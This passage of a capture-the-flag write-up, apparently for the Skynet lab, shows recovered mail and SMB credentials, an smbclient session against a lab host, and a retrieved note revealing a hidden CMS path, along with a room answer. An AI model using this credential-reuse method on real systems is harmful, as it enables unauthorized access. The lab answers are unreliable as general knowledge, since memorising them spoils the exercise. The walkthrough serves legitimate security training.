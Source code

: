 The credentials for accessing the mail-server. (`milesdyson:cyborg007haloterminator`).

> What is Miles password for his emails?
>
> Answer: `cyborg007haloterminator`

One of the emails contains the SMB password for the user `milesdyson`.
```txt
We have changed your smb password after system malfunction.
Password: )s{A&2Z=F^n_E.B`
```

Using this password, we can now log into the smb service as miles and get more information to exploit further:
```shell-session
$ smbclient -U milesdyson //10.10.19.186/milesdyson
Password for [WORKGROUP\milesdyson]:
Try "help" to get a list of possible commands.
smb: \> ls
  .                                                             D        0  Tue Sep 17 13:35:47 2019
  ..                                                            D        0  Wed Sep 18 08:21:03 2019
  Improving Deep Neural Networks.pdf                            N  5743095  Tue Sep 17 13:35:14 2019
  Natural Language Processing-Building Sequence Models.pdf      N 12927230  Tue Sep 17 13:35:14 2019
  Convolutional Neural Networks-CNN.pdf                         N 19655446  Tue Sep 17 13:35:14 2019
  notes                                                         D        0  Tue Sep 17 13:48:40 2019
  Neural Networks and Deep Learning.pdf                         N  4304586  Tue Sep 17 13:35:14 2019
  Structuring your Machine Learning Project.pdf                 N  3531427  Tue Sep 17 13:35:14 2019

                9204224 blocks of size 1024. 5831528 blocks available
smb: \> cd notes
smb: \notes\> ls
  .                                   D        0  Tue Sep 17 13:48:40 2019
  ..                                  D        0  Tue Sep 17 13:35:47 2019

  ...
  important.txt                       N      117  Tue Sep 17 13:48:39 2019
  ...

smb: \notes\> get important.txt 
getting file \notes\important.txt of size 117 as important.txt (0.1 KiloBytes/sec) (average 0.1 KiloBytes/sec)
smb: \notes\> exit
```

The contents of the retrieved: `important.txt` file are:
```txt
$ cat important.txt             

1. Add features to beta CMS /45kra24zxs28v3yd
2. Work on T-800 Model 101 blueprints
3. Spend more time with my wife
```
